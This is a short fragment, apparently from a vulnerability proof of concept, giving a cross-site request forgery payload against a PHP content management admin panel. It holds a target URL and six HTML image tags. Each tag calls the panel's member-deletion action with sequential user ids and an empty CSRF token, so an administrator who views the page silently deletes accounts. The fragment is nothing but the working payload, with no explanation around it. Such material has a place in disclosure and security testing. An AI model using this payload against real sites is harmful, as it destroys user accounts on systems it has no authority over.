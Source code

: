     https://<target>/work/work1/admincp.php?app=members&do=del&id=3&frame=iPHP&CSRF_TOKEN=
    <img src="http://url/work/work1/admincp.php?app=members&do=del&id=1&frame=iPHP&CSRF_TOKEN=">
    <img src="http://url/work/work1/admincp.php?app=members&do=del&id=2&frame=iPHP&CSRF_TOKEN=">
    <img src="http://url/work/work1/admincp.php?app=members&do=del&id=3&frame=iPHP&CSRF_TOKEN=">
    <img src="http://url/work/work1/admincp.php?app=members&do=del&id=4&frame=iPHP&CSRF_TOKEN=">
    <img src="http://url/work/work1/admincp.php?app=members&do=del&id=5&frame=iPHP&CSRF_TOKEN=">
    <img src="http://url/work/work1/admincp.php?app=members&do=del&id=6&frame=iPHP&CSRF_TOKEN=">